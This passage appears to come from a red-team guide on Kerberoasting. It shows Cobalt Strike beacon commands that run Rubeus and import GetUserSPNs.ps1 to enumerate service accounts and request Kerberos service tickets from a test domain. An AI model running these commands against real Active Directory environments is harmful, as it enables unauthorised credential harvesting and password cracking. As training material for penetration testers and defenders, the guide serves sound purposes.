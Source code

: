 ```
beacon> execute-assembly D:\tools\Rubeus.exe kerberoast /domain:sectest.com
```

![image-20220925185558622](../../.gitbook/assets/image-20220925185558622.png)

### Requesting using PowerShell command

GetUserSPNs.ps1 is a tool written in PowerShell that can be used to obtain the Kerberos service principal name (SPN) of harvestable accounts in Active Directory. It works by enumerating all user accounts in Active Directory, searching for accounts that can be used for Kerberoasting attacks, obtaining their corresponding SPNs, and finally outputting the SPNs to the screen or saving them to a file.

Requesting service tickets.

```powershell
powershell-import D:\GetUserSPNs.ps1
powershell  Add-Type -AssemblyName System.IdentityModel
```
